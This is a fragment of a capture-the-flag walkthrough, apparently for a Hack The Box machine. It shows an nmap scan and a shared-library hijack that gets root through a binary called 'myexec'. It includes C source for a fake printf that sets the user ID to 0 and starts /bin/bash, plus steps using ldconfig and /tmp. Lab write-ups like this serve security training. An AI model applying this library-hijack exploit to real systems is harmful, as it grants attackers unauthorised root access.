 ```nmap -sC -sV -oA nmap/dab 10.10.10.86```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225716379_image.png)


*now we have successfully overwrite the pointer for libseclogin.so*

now we execute the “myexec” and enter password we have achieved root.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225876198_image.png)


if we didnt know the password to myexec we could have always taken over another binary “printf”

    #include <stdlib.h>
    extern int printf();
    
    int printf(){
            setreuid(0,0);
            execve("/bin/bash", NULL, NULL);
            }

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549225992230_image.png)


recompile 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549226137687_image.png)


inspect file

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549226178706_image.png)


move printf libseclogin.so to /tmp re-run ldconfig and open myexec straight to a root shell!

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549226263371_image.png)


TADA!
